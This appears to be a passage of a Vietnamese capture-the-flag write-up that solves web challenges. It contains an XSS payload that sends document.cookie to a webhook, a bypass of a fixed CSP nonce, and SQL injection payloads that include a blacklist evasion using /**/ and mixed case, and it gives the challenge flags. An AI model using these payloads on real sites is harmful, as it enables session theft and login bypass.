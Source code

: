 Khi đó bạn để ý trên log của webhook sẽ có 2 truy vấn, 1 cái là của bạn và 1 cái của con bot (do lúc sau server hơi chậm nên có thể cái thứ 2 sẽ tới hơi lâu), đó sẽ là chỗ bạn lấy được cookie chứa flag :v

`FLAG{10c802c9c6afc26769764b5b986d708a}`

### XSS Filter

> Có vẻ như Chall12 là quá dễ với các bạn, thế còn lọc bớt một số kí tự thì sao :)

Dùng payload cũ để nhập vào thì rõ ràng là chẳng có gì, mình check console thì nó báo lỗi CSP. Content Security Protocol hay CSP là 1 cách để bảo vệ trang web khỏi việc XSS (bạn có thể xem thêm ở [đây](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)). Hiện tại trong thẻ meta của trang web đang set CSP như sau:

`default-src 'self'; script-src 'nonce-matuhn'...`

Đúng ra với kiểu CSP là nonce thì giá trị phải được tạo random bởi server, vì nếu không nó chẳng khác gì unsafe-inline cả. Nói nôm na là chỉ cần thêm `nonce="matuhn"` là xong =)))

```html
<script nonce="matuhn">
	window.location = "<webhook url>?cookie=" + document.cookie;
</script>
```

`FLAG{5b7eca261028a4042fde4e3f45dec294}`

### Ét Quy Eo

> Đây là một lỗ hổng rất cơ bản nhưng lại dễ dàng bị bỏ qua trong quá trình phát triển ứng dụng.Lỗ hổng này nguy hiểm tới mức cho phép các h@cker lấy quyền quản trị của website, thay đổi nội dung, lợi dụng để ăn cắp các thông tin nhạy cảm, hoặc thậm chí làm bàn đạp tấn công chiếm quyền quản trị toàn hệ thống.
>
> Đây là phương thức tấn công yêu thích của Hacker khi lần đầu tiếp cận với website của bạn

Trang web là 1 form đăng nhập, chỉ cần nhập username và password là xong. Thông thường mình sẽ thử truyền 1 đống SQLi payload vào password nhưng không ăn thua, kể cả payload lỗi syntax. Vậy nên mình tin là server chỉ query bằng username mà thôi. Và đúng thế thật, nhập username là `' or True --`, password thì tùy ý.

`(1, 'lil uzi vert', 'is_admin', 'RmxhZ3tGcjMzX1N0eWwzfQ==')`

Decode base64 sẽ ra được flag

`Flag{Fr33_Styl3}`

### SQL Filter

Thử ngay payload cũ thì rõ ràng là dính blacklist rồi ¯\\_(ツ)_/¯. Sau 1 hồi mò mẫm thì mình thấy là blacklist gồm có dấu cách (có thể thay thế bằng `/**/` hoặc `%09`), `or` (nhưng `oR` thì không). Tới đây thì mình sẽ có username là `'/**/oR/**/true/**/--`.

Again, decode base64 sẽ ra được flag

`Flag{Gr33t1nG}`
